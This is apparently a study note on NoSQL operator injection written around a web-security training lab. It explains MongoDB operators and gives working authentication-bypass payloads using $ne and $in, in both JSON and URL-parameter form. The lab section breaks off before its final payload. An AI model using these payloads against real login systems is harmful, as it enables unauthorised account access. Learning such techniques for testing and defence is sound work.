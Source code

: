 <br><br>

### NoSQL operator injection

*  NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result. Examples of MongoDB query operators include:

	* $where - Matches documents that satisfy a JavaScript expression.
    
    * $ne - Matches all values that are not equal to a specified value.
    
    * $in - Matches all of the values specified in an array.
    
    * $regex - Selects documents where values match a specified regular expression.


<br>

* How to submit query operators?

* JSON Messages:

```
{"username":"wiener"}

{"username":{"$ne":"invalid"}}
```

* URL-based Inputs: 
(If the below does not work then do the necessary and convert the request to a POST for application/json context payload.)

```
username=wiener

username[$ne]=invalid
```

<br>

* If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload: 

```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```


<br><br>

#### Lab: Exploiting NoSQL operator injection to bypass authentication

* Goal:  Log into the application as the administrator user.

* The following payload will match a username that begins with the word "admin" and where the password field does not equal to "invalid", this will log us into the application as the admin user.
